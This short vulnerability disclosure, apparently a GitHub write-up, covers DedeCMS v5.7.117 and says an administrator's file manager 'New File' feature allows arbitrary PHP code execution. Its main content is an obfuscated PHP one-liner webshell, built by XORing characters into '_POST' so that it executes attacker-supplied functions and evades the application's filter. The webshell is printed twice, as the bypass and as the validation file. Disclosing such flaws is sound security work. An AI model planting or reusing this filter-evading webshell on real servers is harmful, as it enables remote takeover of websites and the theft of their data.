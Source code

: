 The DEDECMS v5.7.117 version has a vulnerability that allows arbitrary code execution in the backend through the creation of new files.

After logging into the administrator account, visit the auxiliary plugin section in the module, click on the file manager and then click on "New File".

![image-20250318191534958](https://bu.dusays.com/2025/03/18/67d95984b45b8.png)

Then just write a random file name, write a one-liner Trojan, and then click save.

![image-20250318191829012](https://bu.dusays.com/2025/03/18/67d95980b3b3d.png)

Filtering was found

![image-20250318192013959](https://bu.dusays.com/2025/03/18/67d9597c94d2d.png)

After testing, you can use the following code to bypass it

```
<?php
@$_++; 
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
${$__}[!$_](${$__}[$_]); 
?>
```

**Vulnerability Validation:**

Create a new 1.php file and save it

```
<?php
@$_++; 
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
${$__}[!$_](${$__}[$_]); 
?>
```

![image-20250318192255932](https://bu.dusays.com/2025/03/18/67d9597494f70.png)

Then access the uploaded 1.php and find that the command was successfully executed

![image-20250318192324872](https://bu.dusays.com/2025/03/18/67d9596e7bbb8.png)

